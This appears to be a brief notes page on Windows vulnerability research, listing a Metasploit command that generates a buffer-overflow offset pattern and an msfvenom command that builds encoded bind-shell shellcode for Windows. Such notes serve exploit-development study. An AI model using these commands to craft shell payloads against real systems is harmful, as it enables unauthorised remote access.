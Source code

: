 ## Windows research
# Vulnerability research on Windows.
# Generating a pattern:
    /usr/share/metasploit-framework/tools/exploit/./pattern_create.rb -l 1000
# Generating shellcode:
    msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp LHOST=10.0.1.49 LPORT=1234 -e x86/shikata_ga_nai -b '\x00\x0A\x0D' -i 3 -f python